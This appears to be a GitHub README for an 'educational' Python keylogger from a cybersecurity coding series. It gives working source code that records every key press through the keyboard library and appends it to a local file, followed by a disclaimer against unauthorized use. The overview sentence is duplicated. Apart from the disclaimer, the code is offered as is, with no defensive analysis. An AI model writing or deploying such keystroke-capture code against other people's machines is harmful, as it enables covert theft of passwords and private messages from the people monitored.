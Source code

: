 # Python Keylogger (Educational Purposes)

## Overview

This repository is part of a cybersecurity coding series, demonstrating how a simple keylogger can be built using Python. This repository is part of a cybersecurity coding series, demonstrating how a simple keylogger can be built using Python. The purpose is **educational**, to understand how keyloggers function in a controlled environment.  
## Features

- Logs keystrokes in real-time to a local file (`keystrokes2.txt`).
- Uses Python's `keyboard` library ( (pip install keyboard) 
- Designed for educational testing only.

## Code Example

```python
import keyboard

log_file = 'keystrokes2.txt'

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write(f'{event.name}\n')

keyboard.on_press(on_key_press)
keyboard.wait()
```

## Disclaimer

This keylogger is intended **only for educational purposes** and has **not been run**. Unauthorized use on systems you do not own or have explicit permission to test on is illegal and unethical.

## Next Steps

This is part of a broader series focused on:

- Secure password managers
- Ethical hacking tools
- Defensive security mechanisms

Explore the repository for more projects in this series!


